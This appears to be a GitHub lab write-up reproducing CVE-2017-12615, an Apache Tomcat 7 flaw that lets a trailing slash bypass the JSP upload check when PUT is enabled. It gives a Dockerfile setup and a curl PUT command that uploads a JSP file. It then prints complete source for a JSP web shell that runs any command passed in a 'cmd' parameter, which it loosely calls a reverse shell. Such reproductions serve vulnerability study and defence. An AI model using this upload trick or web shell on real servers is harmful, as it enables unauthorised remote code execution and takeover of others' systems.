 # CVE-2017-12615

## Description
As a security measure, Apache Tomcat doesn't let you upload JSP files via the PUT method. But due to insufficient checks, an attacker can upload JSP files on 7.0.0 to 7.0.79 Tomcat servers that have PUT method enabled and as a result get remote code execution.


## Environment
We replicated the environment for this vulnerability in a docker container using the following Dockerfile on Windows 10 host. This will use tomcat 7.0.79, we replace the web.xml file with our modified file (setting readonly parameter to false) and start the service on port 8080.
```dockerfile
FROM tomcat:7.0.79-jre8
COPY web.xml /usr/local/tomcat/conf/
EXPOSE 8080
```

We added the following code in web.xml to enable the PUT method.
```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```


## Exploit
We can bypass the file extension check by appending a '/' character after the file's extension, this way it is fooled into thinking that the file just uploaded is not a JSP file. We used the following curl command to upload a JSP file on the server.

```bash
curl -X PUT http://localhost:8080/reverse_shell.jsp/ -d @- < reverse_shell.jsp
```


Ther `reverse_shell.jsp` file receives the command to be executed using HTML, so we can directly goto `http://localhost:8080/reverse_shell.jsp` and execute commands on the server :)


```js
<%@ page import="java.util.*,java.io.*"%>
<%%>
<HTML>
    <BODY>
        <H3>JSP SHELL</H3>
        <FORM METHOD="GET" NAME="myform" ACTION="">
            <INPUT TYPE="text" NAME="cmd">
            <INPUT TYPE="submit" VALUE="Execute">
        </FORM>
        <PRE>
            <%
                if (request.getParameter("cmd") != null) {
                    out.println("Command: " +
                    request.getParameter("cmd") + "<BR>");
                    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
                    OutputStream os = p.getOutputStream();
                    InputStream in = p.getInputStream();
                    DataInputStream dis = new DataInputStream(in);
                    String disr = dis.readLine();
                    while ( disr != null ) {
                        out.println(disr);
                        disr = dis.readLine();
                    }
                }
            %>
        </PRE>
    </BODY>
</HTML>
```

Finally we have our reverse shell working and we are able to execute arbitrary shell commands from browser.

![](rev_shell.PNG)
